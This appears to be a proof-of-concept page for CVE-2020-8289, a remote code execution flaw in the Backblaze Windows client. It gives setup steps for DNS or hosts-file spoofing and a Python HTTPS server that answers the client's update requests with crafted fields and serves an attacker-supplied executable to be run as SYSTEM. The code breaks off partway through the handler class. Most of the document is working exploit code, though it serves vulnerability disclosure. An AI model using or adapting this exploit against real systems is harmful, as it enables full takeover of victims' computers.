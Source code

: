 ## Proof of Concept (Windows)
**Video:** [https://youtu.be/W0THXbcX5V8](https://youtu.be/W0THXbcX5V8)

This proof of concept is for the Windows client. We assume that the attacker has already sent a spoofed DNS response to the victim to point `ca000.backblaze.com` to the attacker's IP, but for PoC testing purposes you can instead add the line `<attacker's IP> ca000.backblaze.com` to the victim's `%windir%\System32\drivers\etc\hosts` file. The code below expects the attacker to supply `rce.exe` (which will be executed as `SYSTEM` on the victim's system) and `server.pem` (which can be self-signed). 

```python
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

"""Proof-of-concept exploit for CVE-2020-8289 for Windows."""

__author__ = "geffner@gmail.com (Jason Geffner)"
__version__ = "1.0"


from http.server import HTTPServer, SimpleHTTPRequestHandler
import cgi
import ssl

bzmagicpat = b"bzbzbzbzbzxaxbxcxdxexfxgxhxixjxkxlxmxnxoxpxqxrxsxtxuxvxwxxxy" + \
             b"xzgromitxxkublerrossxxskiepicxxnukepavex"
with open("rce.exe", "rb") as f:
    exe = f.read()
if len(exe) > (50200 - len(bzmagicpat)):
    raise("EXE too large")
exe += bzmagicpat
exe += b"\x00" * (50304 - len(exe))

class Handler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Length", str(len(exe)))
        self.end_headers()
        self.wfile.write(exe)

    def do_POST(self):
        self.send_response(200)
        form = cgi.FieldStorage(
            fp=self.rfile,
            headers=self.headers,
            environ={"REQUEST_METHOD": "POST"})
        response = str.encode(
            ' update_hguids_firstchar="' + form.getvalue("hguid")[0] + '"' +
            ' win32_version="1' + form.getvalue("version") + '"' +
            ' win32_url="%DEST_HOST%/api/install_backblaze"')
        self.send_header("Content-Length", str(len(response)))
        self.end_headers()
        self.wfile.write(response)

    def do_CONNECT(self):
```